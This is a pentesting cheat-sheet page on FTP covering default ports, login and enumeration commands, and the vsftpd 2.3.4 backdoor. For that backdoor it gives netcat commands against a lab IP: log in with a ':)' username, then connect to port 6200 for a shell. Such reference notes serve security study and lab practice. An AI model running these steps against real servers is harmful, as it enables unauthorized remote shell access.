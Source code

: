 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% hint style="info" %}
### <mark style="color:purple;">Standard Ports</mark>

<mark style="color:purple;">**Data**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">-></mark>  <mark style="color:orange;">**`Port 20`**</mark>

<mark style="color:purple;">**Command**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">-></mark> <mark style="color:orange;">**`Port 21`**</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Basic Commands</mark>

{% code title="Standard Login" %}
```bash
ftp <IP>
```
{% endcode %}

* <mark style="color:purple;">Sometimes</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">is enable by default, then just type it when being prompt by an user.</mark>
* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* <mark style="color:purple;">To specify a password:</mark>

```bash
PASS <password>
```
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}
